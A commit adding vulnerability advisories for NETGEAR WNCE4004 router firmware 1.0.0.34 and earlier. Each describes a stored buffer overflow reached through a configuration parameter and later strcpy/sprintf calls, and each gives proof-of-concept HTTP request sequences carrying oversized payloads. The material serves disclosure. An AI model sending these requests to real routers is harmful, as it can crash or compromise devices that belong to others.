

Add files via upload

diff --git a/Netgear/wncw4004/GetInfo_wan_gateway_bof/GetInfo_wan_gateway_bof.md b/Netgear/wncw4004/GetInfo_wan_gateway_bof/GetInfo_wan_gateway_bof.md
@@ -1,0 +1,81 @@
+# Overview
+
+- Manufacturer's website information：https://www.netgear.com/
+- Firmware download address ：https://www.netgear.com/support/download/?model=WNCE4004
+
+# Affected version
+
+WNCE4004 1.0.0.34 and before
+
+# Vulnerability description
+
+A buffer overflow exists in the NETGEAR WNCE4004 router (firmware V1.0.0.34 and before).By accessing the `SetIPInterfaceInfo` page, users can pass the payload to the `wan_gateway` configuration item through the `NewDefaultGateway` parameter, which will cause a bugger overflow when accessing the page `GetInfo`. As a result, an attacker could cause a denial of service or potentially remote code execution.
+
+# Vulnerability details
+
+Uhttpd is a HTTP server mainly used to provide basic services for device management interfaces (such as Web configuration pages). 
+
+Netgear uses uhttpd to handle HTTP requests, after accessing the `SetIPInterfaceInfo` page, the `NewDefaultGateway` parameter is preserved in `wan_gateway` in config. When accessing the page `GetInfo`, this config will be read from config and pass to a `strcpy` which casue the corruption.
+
+![图 0](vul1.png)  
+![图 0](vul2.png)  
+
+# Poc
+The packages should be sent in order.
+
+Package 1
+```
+POST /apply.cgi HTTP/1.1
+Host: example.com
+Content-Type: text/xml; charset=utf-8
+Content-Length: 456
+SOAPAction: "http://example.com/weather:service:DeviceConfig:#ConfigurationStarted"
+
+<?xml version="1.0" encoding="UTF-8"?>
+<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
+    <soap:Body>
+        <getWeather xmlns="http://example.com/weather">
+            <cityName>Shanghai</cityName>
+        </getWeather>
+    </soap:Body>
+</soap:Envelope>
+```
+
+
+Package 2
+```
+POST /apply.cgi HTTP/1.1
+Host: example.com
+Content-Type: text/xml; charset=utf-8
+Content-Length: 3790
+SOAPAction: "http://example.com/weather:service:WANIPConnection:#SetIPInterfaceInfo"
+
+<?xml version="1.0" encoding="UTF-8"?>
+<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
+    <soap:Body>
+        <SetIPInterfaceInfo xmlns="http://example.com/weather:service:WANIPConnection:#SetIPInterfaceInfo">
+            <NewAddressingType>Static</NewAddressingType>
+            <NewExternalIPAddress>192.168.1.100</NewExternalIPAddress>
+            <NewSubnetMask>255.255.255.0</NewSubnetMask>
+            <NewDefaultGateway>111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111</NewDefaultGateway>
+        </SetIPInterfaceInfo>
+    </soap:Body>
+</soap:Envelope>
+```
+
+Package 3
+```
+POST /apply.cgi HTTP/1.1
+Host: example.com
+Content-Type: text/xml; charset=utf-8
+Content-Length: 775
+SOAPAction: "http://example.com/weather:service:WANIPConnection:#GetInfo"
+
+<?xml version="1.0" encoding="UTF-8"?>
+<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
+    <soap:Body>
+        <SetIPInterfaceInfo xmlns="http://example.com/weather:service:WANIPConnection:#GetInfo">
+        </SetIPInterfaceInfo>
+    </soap:Body>
+</soap:Envelope>
+```

diff --git a/Netgear/wncw4004/GetInfo_wan_dhcp_mtu_bof/GetInfo_wan_dhcp_mtu_bof.md b/Netgear/wncw4004/GetInfo_wan_dhcp_mtu_bof/GetInfo_wan_dhcp_mtu_bof.md
@@ -1,0 +1,78 @@
+# Overview
+
+- Manufacturer's website information：https://www.netgear.com/
+- Firmware download address ：https://www.netgear.com/support/download/?model=WNCE4004
+
+# Affected version
+
+WNCE4004 1.0.0.34 and before
+
+# Vulnerability description
+
+A buffer overflow exists in the NETGEAR WNCE4004 router (firmware V1.0.0.34 and before).By accessing the `SetMaxMTUSize` page, users can pass the payload to the `wan_dhcp_mtu` configuration item through the `NewMaxMTUSize` parameter, which will cause a bugger overflow when accessing the page `GetInfo`. As a result, an attacker could cause a denial of service or potentially remote code execution.
+
+# Vulnerability details
+
+Uhttpd is a HTTP server mainly used to provide basic services for device management interfaces (such as Web configuration pages). 
+
+Netgear uses uhttpd to handle HTTP requests, after accessing the `SetMaxMTUSize` page, the `NewMaxMTUSize` parameter is preserved in `wan_dhcp_mtu` in config. When accessing the page `GetInfo`, this config will be read from config and pass to a `strcpy` which casue the corruption.
+
+![图 0](vul1.png)  
+![图 0](vul2.png)  
+
+# Poc
+The packages should be sent in order.
+
+Package 1
+```
+POST /apply.cgi HTTP/1.1
+Host: example.com
+Content-Type: text/xml; charset=utf-8
+Content-Length: 456
+SOAPAction: "http://example.com/weather:service:DeviceConfig:#ConfigurationStarted"
+
+<?xml version="1.0" encoding="UTF-8"?>
+<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
+    <soap:Body>
+        <getWeather xmlns="http://example.com/weather">
+            <cityName>Shanghai</cityName>
+        </getWeather>
+    </soap:Body>
+</soap:Envelope>
+```
+
+
+Package 2
+```
+POST /apply.cgi HTTP/1.1
+Host: example.com
+Content-Type: text/xml; charset=utf-8
+Content-Length: 3790
+SOAPAction: "http://example.com/weather:service:WANIPConnection:#SetMaxMTUSize"
+
+<?xml version="1.0" encoding="UTF-8"?>
+<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
+    <soap:Body>
+        <SetMaxMTUSize xmlns="http://example.com/weather:service:WANIPConnection:#SetMaxMTUSize">
+            <NewMaxMTUSize>111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111</NewMaxMTUSize>
+        </SetMaxMTUSize>
+    </soap:Body>
+</soap:Envelope>
+```
+
+Package 3
+```
+POST /apply.cgi HTTP/1.1
+Host: example.com
+Content-Type: text/xml; charset=utf-8
+Content-Length: 775
+SOAPAction: "http://example.com/weather:service:WANIPConnection:#GetInfo"
+
+<?xml version="1.0" encoding="UTF-8"?>
+<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
+    <soap:Body>
+        <SetIPInterfaceInfo xmlns="http://example.com/weather:service:WANIPConnection:#GetInfo">
+        </SetIPInterfaceInfo>
+    </soap:Body>
+</soap:Envelope>
+```

diff --git a/Netgear/wncw4004/SetIPInterfaceInfo_bof2/SetIPInterfaceInfo_bof2.md b/Netgear/wncw4004/SetIPInterfaceInfo_bof2/SetIPInterfaceInfo_bof2.md
@@ -1,0 +1,74 @@
+# Overview
+
+- Manufacturer's website information：https://www.netgear.com/
+- Firmware download address ：https://www.netgear.com/support/download/?model=WNCE4004
+
+# Affected version
+
+WNCE4004 1.0.0.34 and before
+
+# Vulnerability description
+
+A buffer overflow exists in the NETGEAR WNCE4004 router (firmware V1.0.0.34 and before).By accessing the `lan` page, users can pass the payload to the `lan_netmask` configuration item through the `ether_subnet` parameter, which will cause a bugger overflow when accessing the page `SetIPInterfaceInfo`. As a result, an attacker could cause a denial of service or potentially remote code execution.
+
+# Vulnerability details
+
+Uhttpd is a HTTP server mainly used to provide basic services for device management interfaces (such as Web configuration pages). 
+
+Netgear uses uhttpd to handle HTTP requests, after accessing the `lan` page, the `ether_subnet` parameter is preserved in `lan_netmask` in config. When accessing the page `SetIPInterfaceInfo`, this config will be read from config and pass to a `sprintf` which casue the corruption.
+
+![图 0](vul1.png) 
+![图 0](vul2.png) 
+![图 0](vul3.png) 
+
+# Poc
+The packages should be sent in order.
+
+Package 1
+```
+POST /apply.cgi?c HTTP/1.1
+Host: 123
+Content-Length: 1000
+
+change_wan_type=0&ether_subnet=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&ether_subnet=2&ether_gateway=11111111&submit_flag=lan
+```
+
+
+Package 2
+```
+POST /apply.cgi HTTP/1.1
+Host: example.com
+Content-Type: text/xml; charset=utf-8
+Content-Length: 500
+SOAPAction: "http://example.com/weather:service:DeviceConfig:#ConfigurationStarted"
+
+<?xml version="1.0" encoding="UTF-8"?>
+<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
+    <soap:Body>
+        <getWeather xmlns="http://example.com/weather">
+            <cityName>Shanghai</cityName>
+        </getWeather>
+    </soap:Body>
+</soap:Envelope>
+```
+
+Package 3
+```
+POST /apply.cgi HTTP/1.1
+Host: example.com
+Content-Type: text/xml; charset=utf-8
+Content-Length: 500
+SOAPAction: "http://example.com/weather:service:WANIPConnection:#SetIPInterfaceInfo"
+
+<?xml version="1.0" encoding="UTF-8"?>
+<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
+    <soap:Body>
+        <getWeather xmlns="http://example.com/weather">
+            <NewAddressingType>Static</NewAddressingType>
+            <NewExternalIPAddress>123</NewExternalIPAddress>
+            <NewSubnetMask>123</NewSubnetMask>
+            <NewDefaultGateway>123</NewDefaultGateway>
+        </getWeather>
+    </soap:Body>
+</soap:Envelope>
+```

diff --git a/Netgear/wncw4004/SetIPInterfaceInfo_bof1/SetIPInterfaceInfo_bof1.md b/Netgear/wncw4004/SetIPInterfaceInfo_bof1/SetIPInterfaceInfo_bof1.md
@@ -1,0 +1,74 @@
+# Overview
+
+- Manufacturer's website information：https://www.netgear.com/
+- Firmware download address ：https://www.netgear.com/support/download/?model=WNCE4004
+
+# Affected version
+
+WNCE4004 1.0.0.34 and before
+
+# Vulnerability description
+
+A buffer overflow exists in the NETGEAR WNCE4004 router (firmware V1.0.0.34 and before).By accessing the `lan` page, users can pass the payload to the `lan_ipaddr` configuration item through the `ether_ipaddr` parameter, which will cause a bugger overflow when accessing the page `SetIPInterfaceInfo`. As a result, an attacker could cause a denial of service or potentially remote code execution.
+
+# Vulnerability details
+
+Uhttpd is a HTTP server mainly used to provide basic services for device management interfaces (such as Web configuration pages). 
+
+Netgear uses uhttpd to handle HTTP requests, after accessing the `lan` page, the `ether_ipaddr` parameter is preserved in `lan_ipaddr` in config. When accessing the page `SetIPInterfaceInfo`, this config will be read from config and pass to a `sprintf` which casue the corruption.
+
+![图 0](vul1.png) 
+![图 0](vul2.png) 
+![图 0](vul3.png) 
+
+# Poc
+The packages should be sent in order.
+
+Package 1
+```
+POST /apply.cgi?c HTTP/1.1
+Host: 123
+Content-Length: 1000
+
+change_wan_type=0&ether_ipaddr=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&ether_subnet=2&ether_gateway=11111111&submit_flag=lan
+```
+
+
+Package 2
+```
+POST /apply.cgi HTTP/1.1
+Host: example.com
+Content-Type: text/xml; charset=utf-8
+Content-Length: 500
+SOAPAction: "http://example.com/weather:service:DeviceConfig:#ConfigurationStarted"
+
+<?xml version="1.0" encoding="UTF-8"?>
+<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
+    <soap:Body>
+        <getWeather xmlns="http://example.com/weather">
+            <cityName>Shanghai</cityName>
+        </getWeather>
+    </soap:Body>
+</soap:Envelope>
+```
+
+Package 3
+```
+POST /apply.cgi HTTP/1.1
+Host: example.com
+Content-Type: text/xml; charset=utf-8
+Content-Length: 500
+SOAPAction: "http://example.com/weather:service:WANIPConnection:#SetIPInterfaceInfo"
+
+<?xml version="1.0" encoding="UTF-8"?>
+<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
+    <soap:Body>
+        <getWeather xmlns="http://example.com/weather">
+            <NewAddressingType>Static</NewAddressingType>
+            <NewExternalIPAddress>123</NewExternalIPAddress>
+            <NewSubnetMask>123</NewSubnetMask>
+            <NewDefaultGateway>123</NewDefaultGateway>
+        </getWeather>
+    </soap:Body>
+</soap:Envelope>
+```

diff --git a/Netgear/wncw4004/apply_qos_bof2/apply_qos_bof2.md b/Netgear/wncw4004/apply_qos_bof2/apply_qos_bof2.md
@@ -1,0 +1,42 @@
+# Overview
+
+- Manufacturer's website information：https://www.netgear.com/
+- Firmware download address ：https://www.netgear.com/support/download/?model=WNCE4004
+
+# Affected version
+
+WNCE4004 1.0.0.34 and before
+
+# Vulnerability description
+
+A buffer overflow exists in the NETGEAR WNCE4004 router (firmware V1.0.0.34 and before).By accessing the `apply_qos` page, users can pass the payload to the `endis_wla_wmm` configuration item through the `qos_endis_wmm_a` parameter, which will cause a bugger overflow when accessing this path again. As a result, an attacker could cause a denial of service or potentially remote code execution.
+
+# Vulnerability details
+
+Uhttpd is a HTTP server mainly used to provide basic services for device management interfaces (such as Web configuration pages). 
+
+Netgear uses uhttpd to handle HTTP requests, after accessing the `apply_qos` page, the `qos_endis_wmm_a` parameter is preserved in `endis_wla_wmm` in config. When accessing this path again, this config will be read from config and pass to a `strcpy` which casue the corruption.
+
+![图 0](vul.png)  
+
+# Poc
+The packages should be sent in order.
+
+Package 1
+```
+POST /apply.cgi?c HTTP/1.1
+Host: 123
+Content-Length: 1000
+
+qos_endis_wmm_a=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&qos_endis_wmm=2&submit_flag=apply_qos
+```
+
+
+Package 2
+```
+POST /apply.cgi?c HTTP/1.1
+Host: 123
+Content-Length: 1000
+
+change_wan_type=1&submit_flag=apply_qos
+```

diff --git a/Netgear/wncw4004/apply_qos_bof1/apply_qos_bof1.md b/Netgear/wncw4004/apply_qos_bof1/apply_qos_bof1.md
@@ -9,20 +9,20 @@ WNCE4004 1.0.0.34 and before
 
 # Vulnerability description
 
-A buffer overflow exists in the NETGEAR WNCE4004 router (firmware V1.0.0.34 and before).By accessing the `apply_qos` page, users can pass the payload to the `endis_wl_wmm` configuration item through the `qos_endis_wmm` parameter, which will cause a bugger overflow when accessing this path again. As a result, an attacker could cause a denial of service or potentially remote code execution.
+A buffer overflow exists in the NETGEAR WNCE4004 router (firmware V1.0.0.34 and before).By accessing the `apply_qos` page, users can pass the payload to the `endis_wl_wmm` configuration item through the `qos_endis_wmm` parameter, which will cause a buffer overflow when accessing this path again. As a result, an attacker could cause a denial of service or potentially remote code execution.
 
 # Vulnerability details
 
 Uhttpd is a HTTP server mainly used to provide basic services for device management interfaces (such as Web configuration pages). 
 
-Netgear uses uhttpd to handle HTTP requests, after accessing the `apply_qos` page, the `qos_endis_wmm` parameter is preserved in `endis_wl_wmm` in config. When accessing this path again, this config will be read from config and pass to a strcpy which casue the corruption.
+Netgear uses uhttpd to handle HTTP requests, after accessing the `apply_qos` page, the `qos_endis_wmm` parameter is preserved in `endis_wl_wmm` in config. When accessing this path again, this config will be read from config and pass to a `strcpy` which casue the corruption.
 
 ![图 0](vul.png)  
 
 # Poc
+The packages should be sent in order.
 
 Package 1
-
 ```
 POST /apply.cgi?c HTTP/1.1
 Host: 123
